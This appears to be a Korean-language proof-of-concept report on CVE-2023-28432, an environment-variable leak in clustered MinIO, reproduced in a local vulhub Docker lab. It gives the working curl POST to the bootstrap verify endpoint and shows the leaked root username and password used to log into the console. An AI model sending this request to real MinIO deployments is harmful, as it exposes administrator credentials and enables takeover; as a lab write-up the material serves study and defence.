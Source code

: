 # CVE-2023-28432 MinIO 취약점 PoC 보고서

## 개요

-**CVE 번호**: CVE-2023-28432
-**대상 서비스**: MinIO
-**취약점 정보**: RELEASE.2023-03-20T20-16-18Z 이전 버전에서는 MinIO가 클러스터 모드로 배포될 경우 정보 유출 취약점이 존재한다. 공격자느 HTTP 요청을 사용해 대상 프로세스의 모든 환경 변수를 획득할 수 있다.

## 레퍼런스
- <https://github.com/minio/minio/security/advisories/GHSA-6xvq-wj2x-3h3q>
- <https://mp.weixin.qq.com/s/GNhQLuzD8up3VcBRIinmgQ>
- <https://github.com/vulhub/vulhub/tree/master/minio/CVE-2023-28432>



## 취약점 재현 과정

### 1. 컨테이너 실행

다음 명령어를 사용해 MinIO 클러스터를 시작한다.

'''docker compose up -d'''

![alt text](image-1.png)



### 2. Web 콘솔 접속

클러스터가 시작되면 http://localhost:9001 으로 브라우저에 접속이 가능하다.

![alt text](image.png)


### 3. 취약점 재현

API 엔드포인트에 문제가 있다. 

'''curl -X POST http://localhost:9000/minio/bootstrap/v1/verify'''

curl 명령어를 사용해 /minio/bootstrap/v1/verify 엔드포인트에 POST 요청을 보냈다.

![alt text](image-2.png)

MINIO_ROOT_USER와 MINIO_ROOT_PASSWORD가 노출되어 있는 것을 확인할 수 있다. 

"MINIO_ROOT_USER":"minioadmin"
"MINIO_ROOT_PASSWORD":"minioadmin-vulhub"

이 아이디와 비밀번호로 웹 콘솔에 로그인하는 것이 가능하다.

![alt text](image-3.png)